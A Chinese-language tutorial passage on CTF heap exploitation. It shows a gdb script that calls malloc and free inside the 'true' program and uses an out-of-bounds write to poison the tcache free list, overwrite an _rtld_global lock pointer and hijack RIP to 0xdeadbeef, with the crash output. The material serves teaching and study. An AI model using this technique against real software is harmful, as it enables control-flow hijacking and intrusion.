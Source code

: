 gdb能动态调用函数，感觉这个可玩性很大

### gdb命令的pwn示例

ctf的pwn教学一般的漏洞在二进制，利用在python。而[how2heap](https://github.com/shellphish/how2heap)的漏洞和利用都在c源码中，利用gdb调用函数的方法，可以让漏洞和利用都落实在gdb命令中，如这个堆越界写打tcache的fd：

```c
$ cat gdb.cmd
b exit
r
p $a=__malloc(20)
p $b=__malloc(20)
p $c=__malloc(20)
p $d=__malloc(20)
p __free($c)
p __free($b)
set *(long long *)($a+0x20)=&_rtld_global._dl_rtld_lock_recursive
p $e=__malloc(20)
p $f=__malloc(20)
set *(long long *)($f)=0xdeadbeef
c
```

gdb调试总要有个进程，或者有个二进制，为了省事，找一个没有什么堆操作的自带程序，选择了true这个程序：

```c
$ gdb -q `which true` -x ./gdb.cmd

Program received signal SIGSEGV, Segmentation fault.
0x00000000deadbeef in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007ffff7ffd060  →  0x00007ffff7ffe190  →  0x0000555555554000  →  0x00010102464c457f
$rbx   : 0x00007ffff7ffd060  →  0x00007ffff7ffe190  →  0x0000555555554000  →  0x00010102464c457f
$rcx   : 0x1               
$rdx   : 0x00007ffff7fe0d50  →   endbr64 
$rsp   : 0x00007fffffffded8  →  0x00007ffff7fe0dc7  →   mov ecx, DWORD PTR [rbx+0x8]
$rbp   : 0x00007fffffffdf30  →  0x0000000000000000
$rsi   : 0x0               
$rdi   : 0x00007ffff7ffd968  →  0x0000000000000000
$rip   : 0xdeadbeef        
$r8    : 0x0               
$r9    : 0x0               
$r10   : 0x0               
$r11   : 0x00007ffff7f738f0  →  0x0000800003400468
$r12   : 0x0               
$r13   : 0x1               
$r14   : 0x00007ffff7fb1fc8  →  0x0000000000000000
$r15   : 0x00007ffff7fae980  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
──────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffded8│+0x0000: 0x00007ffff7fe0dc7  →   mov ecx, DWORD PTR [rbx+0x8]	 ← $rsp
0x00007fffffffdee0│+0x0008: 0x00005555555594d0  →   endbr64 
0x00007fffffffdee8│+0x0010: 0x00007fffffffdef8  →  0x00007fffffffdf0f  →  0x0000000000000000
0x00007fffffffdef0│+0x0018: 0x0000000055556610
0x00007fffffffdef8│+0x0020: 0x00007fffffffdf0f  →  0x0000000000000000
0x00007fffffffdf00│+0x0028: 0x0000000000000000
0x00007fffffffdf08│+0x0030: 0x00007ffff7fac718  →  0x00007ffff7fae980  →  0x0000000000000000
0x00007fffffffdf10│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0xdeadbeef
```